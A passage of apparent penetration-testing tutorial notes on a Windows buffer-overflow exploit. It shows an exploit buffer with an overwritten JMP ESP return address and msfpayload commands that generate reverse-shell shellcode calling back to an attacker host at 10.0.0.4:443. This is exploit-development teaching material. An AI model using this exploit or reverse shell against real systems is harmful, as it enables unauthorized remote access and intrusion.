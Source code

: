     ```python
    buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
    ```

    - The return address is written the wrong way around, as the x86 architecture stores addresses in little endian format, where the low-order byte of the number is stored in memory at the lowest address, and the high-order byte at the highest address.
    - Using F2, we place a breakpoint on the return address, and run our exploit again, and we see output similar to the following.
    ![The JMP ESP Breakpoint is Reached](/images/44.png)

### Generating Shellcode with Metasploit
  - The msfpayload command can autogenerate over 275 shellcode payload options

    ```shell
    > msfpayload –l
    ```
  - We will use a basic payload called __windows/shell_reverse_tcp__, which acts much like a reverse shell netcat payload.

  ```shell
  # The msfpayload script will generate C formatted (C parameter) shellcode
  > msfpayload windows/shell_reverse_tcp LHOST=10.0.0.4 LPORT=443 C
  ```
  - That was easy enough, however we can immediately identify bad characters in this shellcode, such as null bytes.
  - We will need to encode this shellcode using the Metasploit Framework __msfencode__ tool.
  - We will also need to provide the msfencode script the specific bad characters we wish to avoid, in the resulting shellcode. Notice that msfencode needs raw shellcode (R parameter) as input.